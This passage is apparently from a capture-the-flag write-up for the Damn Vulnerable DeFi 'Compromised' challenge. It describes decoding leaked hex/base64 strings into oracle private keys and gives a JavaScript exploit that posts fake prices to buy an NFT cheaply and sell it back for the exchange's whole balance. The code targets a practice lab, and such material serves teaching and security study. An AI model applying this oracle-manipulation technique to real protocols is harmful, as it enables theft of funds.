 It turns out that the two byte arrays are the private keys of the following trusted oracles:
- `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
- `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
 
At this point, we can send transactions using these two addresses and thus alter the NFT price.

## 3) Solution

The solution consists of the following steps:
- lower the price of the `DVNFT` to `0` using `2` of the `3` compromised oracle sources
- buy a `DVNFT` with our attacker address (we need to send a value that is `>` than `0`)
- set the price of the `DVNFT` to be equal to the exchange balance  using `2` of the `3` compromised oracle sources
- approve the exchange to transfer our NFT token
- sell the token: this way, since the price of the NFT token will be equal to the exchange balance, we'll receive all of its balance
- set the initial NFT token price

`compromised.challenge.js`:

```javascript

    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */

        const eth = ethers.utils.parseEther('0.01');
        let provider = attacker.provider

        let data = [
            "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35",
            "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34"
        ];

        const signers = data
            .map(d => d.replaceAll(" ", ""))
            .map(d => Buffer.from(d, "hex").toString("utf-8"))
            .map(d => Buffer.from(d, "base64").toString("utf-8"))
            .map(d => new ethers.Wallet(d, provider))
            .filter(signer => sources.includes(signer.address))


        // lower the price
        for (const signer of signers) {
            await this.oracle.connect(signer).postPrice("DVNFT", 0);
        }

        // buy one
        await this.exchange.connect(attacker).buyOne({ value: eth });

        // set the price equal to the exchange balance
        for (const signer of signers) {
            await this.oracle.connect(signer).postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
        }

        // sell one
        await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
        await this.exchange.connect(attacker).sellOne(0);

        // set the initial price
        for (const signer of signers) {
            await this.oracle.connect(signer).postPrice("DVNFT", INITIAL_NFT_PRICE);
```